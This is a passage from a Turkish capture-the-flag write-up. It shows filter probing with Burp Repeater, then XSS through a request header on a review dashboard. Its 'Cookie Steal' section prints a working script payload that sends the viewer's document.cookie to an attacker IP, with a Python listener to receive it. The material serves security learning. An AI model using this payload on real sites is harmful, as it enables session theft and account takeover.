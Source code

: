 Hiçbir şey tetiklemiyor:
![Pasted image 20241016160737.png](/img/user/resimler/Pasted%20image%2020241016160737.png)


Repeater
Engellemeyi tetikleyen talebi Burp Repeater'a götüreceğim:
![Pasted image 20241016160814.png](/img/user/resimler/Pasted%20image%2020241016160814.png)

Mesajı URL ile çözüyorum ve yine de tetikleniyor:

![Pasted image 20241016160839.png](/img/user/resimler/Pasted%20image%2020241016160839.png)
Bu bana yeni bir şey öğretmiyor ama daha kolay oynamamı sağlıyor.

İyi bir teknik, artık bir sorunu tetiklemeyene kadar karakterleri birer birer silmektir. Bu durumda, ilk > kaldırıldığında, uyarıyı tetiklemeyi durdurur:

![Pasted image 20241016160922.png](/img/user/resimler/Pasted%20image%2020241016160922.png)
">" tek başına tetiklemiyor. Tahminimce HTML etiketlerini arıyor, bu yüzden hem < hem de >'e ihtiyaç duyuyor:
![Pasted image 20241016161021.png](/img/user/resimler/Pasted%20image%2020241016161021.png)
Ayrıca SSTI girişimlerinde de tetiklenir (hem {{ hem de }}):

![Pasted image 20241016161305.png](/img/user/resimler/Pasted%20image%2020241016161305.png)


### Gösterge Tablosuna Erişim
POC
XSS veya SSTI'yi bu bloktan geçirmek zor olacaktır. Ancak yalnızca tespit edildiğini değil, aynı zamanda yüksek öncelikli inceleme için gönderildiğini de söylüyor. İnceleme için gönderilen veriler geri görüntülenenlere benziyorsa, bunun içinde XSS yapabilir miyim?

Eklediğim tüm başlıklar dahil edildi:

![Pasted image 20241016161437.png](/img/user/resimler/Pasted%20image%2020241016161437.png)
Bu başlığa (veya herhangi bir başlığa) bir "<script" etiketi eklersem, işlem gerçekleşiyor gibi görünüyor:

![Pasted image 20241016161508.png](/img/user/resimler/Pasted%20image%2020241016161508.png)
“show response in browser” seçeneği burada kullanışlıdır:
![Pasted image 20241016161601.png](/img/user/resimler/Pasted%20image%2020241016161601.png)
That’s XSS:
![Pasted image 20241016161610.png](/img/user/resimler/Pasted%20image%2020241016161610.png)


#### Cookie Steal
En basit XSS payload'u, rapora bakan kişinin çerezini çalmaktır. Basit bir çerez hırsızı ekleyeceğim:
```shell-session
<script>var i=new Image(); i.src="http://10.10.14.6/?c="+document.cookie;</script>
```
Bu, sunucumda kullanıcının cookie'sini içeren bir kaynak URL ile sayfaya yeni bir <img> etiketi ekleyecektir. Bunun çalışması için çerezin HttpOnly olarak yapılandırılmamış olması gerekir ki Firefox geliştirme araçları bunun False olduğunu gösterir:
![Pasted image 20241016161749.png](/img/user/resimler/Pasted%20image%2020241016161749.png)
python -m http.server 80 kullanarak bir Python web sunucusu başlatacağım. Python binary'me cap_net_bind_service verdim, böylece root olmadan düşük portları dinleyebilir. Bu olmadan sudo'yu çalıştırmam gerekir. Ayrıca, benim python'um Python3.
